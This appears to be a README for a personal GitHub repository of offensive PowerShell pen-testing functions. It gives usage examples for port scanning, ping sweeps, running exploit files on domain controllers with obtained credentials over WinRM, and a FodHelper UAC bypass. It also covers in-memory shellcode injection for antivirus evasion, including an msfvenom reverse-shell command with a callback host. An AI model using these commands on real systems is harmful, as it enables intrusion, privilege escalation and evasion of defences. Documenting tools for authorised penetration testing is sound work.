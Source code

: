 - Invoke-PortScan.ps1 is a function for scanning all possible TCP ports on a target. I will improve in future by including UDP as well as the ability to define a port range. This one is honestly not even worth using because it is very slow. Threading is a weak area of mine and I plan to work on that with this one.
```powershell
 C:\PS> Invoke-PortScan -IpAddress 192.168.0.1
```

- Invoke-PingSweep is a function used for performing a ping sweep of a subnet range.
```powershell
C:\PS> Invoke-PingSweep -Subnet 192.168.1.0 -Start 192 -End 224 -Source Singular
# NOTE: The source parameter only works if IP Source Routing value is "Yes"

C:\PS> Invoke-PingSweep -Subnet 10.0.0.0 -Start 1 -End 20 -Count 2
# Default value for count is 1

C:\PS> Invoke-PingSweep -Subnet 172.16.0.0 -Start 64 -End 128 -Count 3 -Source Multiple
```

- Invoke-UseCreds is a function I created to simplify the process of using obtained credentials during a pen test. I use -Passwd instead of -Password because that parameter when defined should be configured as a secure string which is not the case when entering a value into that filed with this function. It gets converted to a secure string after you set that value.
```powershell
# The below command will use the entered credentials to open the msf.exe executable as the user tobor
C:\PS> Invoke-UseCreds -Username 'OsbornePro\tobor' -Passwd 'P@ssw0rd1' -Path .\msf.exe -Verbose
```
This cmdlet can also be used to execute files located on your local machine and execute them on a remote machine
```powershell
# The below command will use the entered credentials to open the exploit.ps1 executable as the user tobor on DC01 and DC02 using WinRM
C:\PS> Invoke-UseCreds -Username 'OsbornePro\tobor' -Passwd 'P@ssw0rd1' -Path .\exploit.ps1 -ComputerName "DC01.domain.com","DC02.domain.com"

# The below command will use the entered credentials to open the exploit.ps1 executable as the user tobor on DC01 and DC02 using WinRM over HTTPS
C:\PS> Invoke-UseCreds -Username 'OsbornePro\tobor' -Passwd 'P@ssw0rd1' -Path .\exploit.ps1 -ComputerName "DC01.domain.com","DC02.domain.com" -UseSSL
```

- Invoke-FodHelperBypass is a function that tests whether or not the UAC bypass will work before executing it to elevate priviledges. This of course needs to be run by a member of the local administrators group as this bypass elevates the priviledges of the shell you are in. You can define the program to run which will allow you to execute generaate msfvenom payloads as well as cmd or powershell or just issuing commands.
```powershell
C:\PS> Invoke-FodHelperBypass -Program "powershell" -Verbose
# OR
C:\PS> Invoke-FodHelperBypass -Program "cmd /c msf.exe" -Verbose
```

- Invoke-InMemoryPayload is used for AV Evasion using an In-Memory injection. This will require the runner to generate an msfvenom payload using a command similar to the example below, and entering the "[Byte[]] $buf" variable into Invoke-InMemoryPayloads "ShellCode" parameter.
```bash
# Generate payload to use
msfvenom -p windows/meterpreter/shell_reverse_tcp LHOST=192.168.137.129 LPORT=1337 -f powershell
```
Start a listener, use that value in the "ShellCode" parameter, and run the command to gain your shell. This will also require certain memory protections to not be enabled.
__NOTE:__ Take note there are __NOT ANY DOUBLE QUOTES__ around the ShellCode variables value. This is because it is expecting a byte array.
```powershell
```